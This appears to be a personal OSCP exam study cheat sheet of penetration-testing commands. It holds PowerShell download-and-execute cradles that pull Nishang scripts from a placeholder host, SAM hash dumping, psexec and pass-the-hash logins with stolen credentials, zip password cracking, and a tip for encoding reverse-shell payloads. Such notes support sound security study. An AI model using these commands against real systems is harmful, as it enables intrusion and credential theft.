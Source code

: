 # oscp-cheatsheet

## Kali General

- Listen for pings to test if you remote command worked
  - `tcpdump -i interface icmp`
- Download all files from an ftp service
  - `wget -m --no-passive ftp://anonymous:anonymous@ipaddress`
- Read zip file info
  - `7z l -slt File.zip`
- Crack a password protected zip file
   - fcrack -D -p <password List> <zipfile>
- Useful tools
  - xclip

## Windows

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)

- Privesc
  - Test if powershell is working without breaking shell
    - `powershell whoami`
  - Pivot DoS to powershell
    - `powershell "IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/nishang.ps1")"`
  - Download string that loads a ps script into memory (if you want it to auto run make sure there is a call to the function to do so at the bottom of the script, or else it'll just load the functions into memory)
    - `IEX(New-Object Net.WebClient).downloadString("http://0.0.0.0/script.ps1")`
  - Run cmd as other user
    - `$SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred`
  - Decrypy SAM password hashes
    - `impacket-secretsdump -sam SAMFILE -system SYSTEMFILE local`
  - Determine admin accounts
    - DOS: `net localgroup administrators`
  - SAM and SYSTEM file location
    - `Windows/System32/config`
  - Log into remote windows host with stolen creds (SMB required)
    - `psexec.py user@ip`
  - Check panther directory, install logs get put in here and contain creds

- SMB
  - Connect with stolen hash
    - `smbmap -u USER -p HASH -H hostnameIP`

## Linux

- Resources
  - [Path Traversal](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-linux/)

## Troubleshooting

- Did an RCE test work but your payload fail?
  - Try changing single quotes to double quotes or vice versa
  - Try escaping special characters
  - Try changing your outgoing port to a more commonly used one (80, 443, 21, 22, etc)
  - Try removing bad characters
    - ex: `cat reverse.ps1 | iconv -t UTF-16LE | base64 -w0 | xclip -selection clipboard`
      - `powsershell-enc base64scriptpaste`
  - If you used msfvenom make sure your archicitecture is correct
  - If you used msfvenom make sure your payload size isn't too large
  - If you used msfvenom try pivoting options
  
